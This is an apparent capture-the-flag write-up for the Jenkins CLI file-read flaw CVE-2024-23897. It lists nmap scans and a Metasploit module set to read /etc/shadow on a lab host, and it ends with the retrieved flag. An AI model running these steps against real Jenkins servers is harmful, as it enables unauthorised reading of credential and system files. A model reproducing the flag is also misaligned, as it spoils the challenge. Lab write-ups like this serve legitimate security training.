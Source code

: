 # Vulnerability Exploitation Report: CVE-2024-23897

## Vulnerability Overview
**CVE ID**: CVE-2024-23897  
**CVSS Score**: 9.8 (Critical)  
**Description**: Jenkins, an open-source automation server, contains a vulnerability in its CLI command parser that allows unauthenticated users to read arbitrary system files. This critical flaw enables attackers to access sensitive files on the target system without authentication.

## Objective
Exploit the CVE-2024-23897 vulnerability on a target Jenkins instance to read sensitive system files and retrieve a flag as part of a capture-the-flag (CTF) challenge.

## Target Information
- **Target IP**: 192.168.5.1
- **Target Port**: 8080 (assumed to be the Jenkins service port)
- **Attack Machine IP**: 192.168.0.5
- **Objective**: Retrieve the flag by exploiting the file read vulnerability.

## Exploitation Steps

### Step 1: Network Discovery
Perform a ping scan to identify active hosts in the 192.168.5.0/24 subnet.

```
nmap -sn 192.168.5.0/24
```

### Step 2: Service Enumeration
Enumerate services on the target host (192.168.5.1) to confirm the presence of Jenkins.

```
nmap -sV 192.168.5.1
```

### Step 3: Verify Jenkins Accessibility
Confirm the Jenkins instance is accessible by sending an HTTP request to port 8080.

```
curl 192.168.5.1:8080
```

### Step 4: Launch Metasploit
Start the Metasploit Framework to access exploit modules for Jenkins.

```
msfconsole
```

### Step 5: Search for Jenkins Exploit
Search Metasploit for exploit modules related to Jenkins.

```
search jenkins
```

### Step 6: Select the Exploit Module
Choose the Metasploit module for the Jenkins CLI arbitrary file read vulnerability.

```
use auxiliary/gather/jenkins_cli_ampersand_arbitrary_file_read
```

### Step 7: Review Exploit Details
Display information about the selected module to understand its options and requirements.

```
info
```

### Step 8: Configure the Exploit
Set the target host to the Jenkins instance’s IP address.

```
set RHOSTS 192.168.5.1
```

### Step 9: Specify File to Read
Set the file path to read the sensitive `/etc/shadow` file, which may contain the flag or lead to it.

```
set FILE_PATH /etc/shadow
```

### Step 10: Execute the Exploit
Run the exploit to read the specified file on the target system.

```
exploit
```

## Final Result
The exploitation was successful, and the flag was retrieved from the target system.

**Flag**: jrRxbTOlMog1E0I6